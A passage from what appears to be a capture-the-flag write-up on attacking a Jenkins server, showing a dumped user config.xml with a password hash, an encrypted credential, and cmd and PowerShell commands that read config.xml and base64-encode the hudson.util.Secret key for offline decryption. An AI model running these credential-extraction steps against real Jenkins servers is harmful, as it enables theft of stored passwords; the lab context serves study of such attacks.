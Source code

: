 ```python
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.model.TimeZoneProperty/>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
      <emailAddress>admin@object.local</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
    <jenkins.security.ApiTokenProperty>
      <tokenStore>
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1634793332195</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\123123>exit 0
```

### We find a password who its encrypted 

oliver:AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=

### I find a script for decript this tipe of password on github : https://github.com/retr0-13/pwn_jenkins.git

### on the kali we make :

1. creds.xml -> all the content of config.xml 

```
cmd /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\users\admin_17207690984073220035\config.xml" 
```

2. util.secret -> all the content of 

```
powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\hudson.util.Secret' -Encoding byte));Write-Output $c" 
```
but we save util.secret it like :
```
 echo 'gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=' | base64 -d -w 0 > util.secret   
```
